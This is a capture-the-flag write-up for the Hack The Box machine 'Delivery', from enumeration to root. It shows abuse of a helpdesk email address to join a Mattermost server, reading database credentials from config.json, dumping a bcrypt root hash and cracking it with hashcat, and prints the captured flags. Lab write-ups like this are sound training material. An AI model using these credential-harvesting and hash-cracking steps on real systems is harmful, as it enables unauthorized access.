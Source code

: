 ```yaml
---
layout: page
permalink: /htb/delivery
permalink_name: /htb/delivery
title: Delivery
---
```

# Enumeration

The initial nmap scan reveals that there are 3 ports open:
```
22/tcp   	open  ssh     		OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   	open  http    		nginx 1.14.2
8065/tcp	open  unknown
```
I was unsuccessful in researching what program runs on this port in my OSINT so I headed over to the box site, http://10.10.10.222. Clicking around on the site brings us to the contact us page which shows:

![image1.png](images/delivery/image1.png)

From this page, we can also see the domain: delivery.htb, which we should add to our /etc/hosts file. Additionally, we can now deduce that the service runing on port 8065 is a MatterMost server.

Heading over to helpdesk.delivery.htb shows us a system for creating support tickets. I attempt to open a new ticket to see what the process is like and if there are any potential attack vectors.

![image2.png](images/delivery/image2.png)

The inputs get sanitized so I wasn't able to perform injecion of PHP code, and SQL injection didn't work either. After filling out the form with fake/nonsense information, we are shown the following message:

![image3.png](images/delivery/image3.png)

This is interesting because it would seem that any message emailed to that support account will be printed in our support thread. This an important detail to note. Since I was not able to find any other attack vectors, let us see what else we can find. Checking out the sign in page leads us to an agent sign-in link, which in turn takes us to the OSTicket log in portal. I tried SQL injection again but no luck.

![image4.png](images/delivery/image4.png)

Now lets check out the MatterMost server. It also greets us with a log in page, but we have the ability to create a new account, or reset a password. From the homepage of delivery.htb, we know that we need an address with the domain of @delivery.htb in order to access this content. 

![image5.png](images/delivery/image5.png)

# Getting User

My first thought was that since we already know of a @delivery.htb address (the one given to us after making a support ticket) then we could potentially request a password reset using that email on the MatterMost server, and then we will receive the link in the support thread, and BOOM. However, this did not work. So my next step was try to use the email account to sign up on MatterMost. 

![image6.png](images/delivery/image6.png)

It worked! After we log into the server we find a message channel with credentials to the OSTicket server and a hint as to what the password of root might be.

![image7.png](images/delivery/image7.png)

Lets log into the server with the provided credentials and capture the user flag.

```
[kevin@ryzen ~]$ ssh maildeliverer@delivery.htb
maildeliverer@delivery.htb's password:
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan 25 07:15:19 2021 from 10.10.14.10
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$ cat user.txt
c90e841382f400b84697616bb877a272
maildeliverer@Delivery:~$
```

# Getting Root

From the message in the MatterMost channel, we can assume that we are now looking for hashes that contain the root password. I went back to the OSTicket login portal to try and obtain to clues about where to look. Fortunately, I found a lot.

![image8.png](images/delivery/image8.png)

My next objective is find a MySQL database that might contain password hashes. I start by running the following command to locate where the MatterMost files are stored.
```
maildeliverer@Delivery:~$ find / -iname mattermost  2>&1 | grep -v "Permission denied"
/opt/mattermost
/opt/mattermost/bin/mattermost
/var/lib/mysql/mattermost
maildeliverer@Delivery:~$
```
I do not have sufficient permissions to access the last directory in the list. I decide to check out the first directory, /opt/mattermost. There I find a config directory with a config.json file inside. We are given a user and password to access the SQL database.

![image9.png](images/delivery/image9.png)

```
maildeliverer@Delivery:~$ mysql -u mmuser -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 159
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]>

```

Exploring the mattermost db reveals a Users table that contains username and password data. Most importantly, we get the root hash:

![image10.png](images/delivery/image10.png)

root: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

Hashid reveals this to most likely be using Blowfish encryption, mode 3200. I echo the hash into pass.txt and decide to use the best64 rule with hashcat. I also add PleaseSubscribe! to pass.txt since we know that the real password is a variation of it.

```
[kevin@ryzen Delivery]$ hashcat -m 3200 hash.txt pass.txt -r /opt/hashcat/rules/best64.rule --show
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
[kevin@ryzen Delivery]$
```

Now all that remains is to su into root and obtain the root flag.

```
maildeliverer@Delivery:~$ su root
Password:
root@Delivery:/home/maildeliverer# cd
root@Delivery:~# cat root.txt
cd4d8dba1cea379c59a9795f553674b2
root@Delivery:~#
```
